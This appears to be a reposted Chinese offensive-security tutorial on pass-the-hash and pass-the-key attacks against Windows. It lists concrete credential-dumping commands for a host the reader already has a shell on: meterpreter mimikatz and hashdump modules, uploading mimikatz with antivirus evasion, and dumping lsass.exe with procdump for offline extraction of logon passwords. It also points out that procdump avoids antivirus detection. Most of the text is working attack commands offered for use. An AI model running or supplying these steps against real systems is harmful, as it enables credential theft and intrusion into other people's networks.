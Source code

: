 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [xz.aliyun.com](https://xz.aliyun.com/t/9382#toc-20)

PTH
---

如果找到了某个用户的 ntlm hash，就可以拿这个 ntlm hash 当作凭证进行远程登陆了  
其中若 hash 加密方式是 rc4 ，那么就是 pass the hash  
若加密方式是 aes key, 那么就是 pass the key  
注意 NTLM 和 kerberos 协议均存在 PTH:  
NTLM 自然不用多说  
kerberos 协议也是基于用户的 client hash 开始一步步认证的，自然也会受 PTH 影响

那前提就是要获取 hash 值了

### HASH 获取

1. 使用 meterpreter 里的 mimikatz 模块

```
meterpreter>load mimikatz
meterpreter>mimikatz_command -f mimikatz的指令
privilege::debug 提权  samdump::hashes dump哈希  
或者
meterpreter>msv/kerberos/widgst
```

2. 使用 meterpreter 自带的 hash 获取模块

```
meterpreter>hashdump
meterpreter>run windows/gather/smart_hashdump   (推荐使用这个)
```

3. 向目标机上传 mimikatz 远程调用 mimikatz.exe dump 出 hash，mimikatz 需要免杀处理  
意思就是既然我们获取到了 shell，我们直接向目标机上传一个 mimikatz 然后在 shell 里使用它就行了. 使用方法为 cmd 窗口打开 mimikatz.exe，进入 mimikatz 终端，然后输入 mimikatz 指令即可

4. 上传 procdump 到目标机，获取到 lsass.dmp 文件后将其传回本地又 mimikatz 来 dump 哈希

procdump.exe 是微软自带的程序，所以不会触发杀毒。所以可以通过它传回 lsass.dmp 本地提取 hash

```
procdump64.exe -accepteula -ma lsass.exe lsass.dmp  执行该指令，获取到lsass.dmp
然后将其传回本地
通过mimikatz.exe分别执行以下命令
"sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full"
```

[![](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217130719.png)](https://const27blog.oss-cn-beijing.aliyuncs.com/img/QQ%E6%88%AA%E5%9B%BE20210217130719.png)

[Procdump](https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump)：[https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump](https://docs.microsoft.com/zh-cn/sysinternals/downloads/procdump)  
[mimikatz](https://github.com/gentilkiwi/mimikatz/releases)：[https://github.com/gentilkiwi/mimikatz/releases](https://github.com/gentilkiwi/mimikatz/releases)
